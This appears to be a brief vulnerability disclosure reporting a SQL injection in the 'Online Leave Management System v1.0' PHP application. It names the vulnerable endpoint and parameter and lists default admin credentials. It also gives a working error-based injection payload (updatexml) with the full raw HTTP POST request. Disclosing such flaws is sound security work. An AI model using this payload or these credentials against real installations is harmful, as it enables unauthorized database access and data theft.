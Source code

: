 # Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Tmoont

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

Vulnerability File: /leave_system/classes/Master.php?f=delete_leave_type

Vulnerability location: /leave_system/classes/Master.php?f=delete_leave_type,id

dbname=leave_db,length=8

[+] Payload:  id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /leave_system/classes/Master.php?f=delete_leave_type HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/leave_system/admin/?page=maintenance/department
Content-Length: 65
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/183636326-af6cb486-0dc5-42e6-9050-2946bde2455e.png)




